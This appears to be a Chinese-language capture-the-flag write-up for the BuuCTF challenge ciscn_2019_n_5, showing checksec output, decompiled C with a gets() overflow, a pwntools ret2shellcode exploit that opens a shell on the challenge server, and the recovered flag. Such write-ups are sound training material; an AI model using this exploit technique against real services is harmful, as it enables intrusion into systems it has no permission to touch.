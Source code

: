 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - ret2shellcode
---
```


# ciscn_2019_n_5

## 前置工作

先来个 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/桌面]
└─$ checksec ciscn_2019_n_5       
[*] '/home/ela/桌面/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

NX unknown，感觉像是可以构建 ShellCode

用 IDA 64 打开附件 `ciscn_2019_n_5`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets((__int64)text);
  return 0;
}
```

如果是 ret2shellcode 的话，可以把 ShellCode 弄到 `name` 里面，然后在 `gets()` 函数中造成栈溢出，让程序能跑到 `name` 的位置上

经过查找，发现 `name` 的位置在 `0x601080`

## 编写 Exp

```python
from pwn import *
context.binary = ELF("./ciscn_2019_n_5")

io = remote("node4.buuoj.cn", 26536)
shellcode = asm(shellcraft.sh())
name_addr = 0x601080
io.recvuntil(b"tell me your name\n")
io.sendline(shellcode)
payload = b"a"*(0x20+0x8)+pack(name_addr, 64)
io.recvuntil(b"What do you want to say to me?\n")
io.sendline(payload)
io.interactive()

```

运行过后使用 `cat flag`，获得 Flag 为 `flag{88d7f7c4-dfe4-4ed5-8e06-c300f1013ae2}`
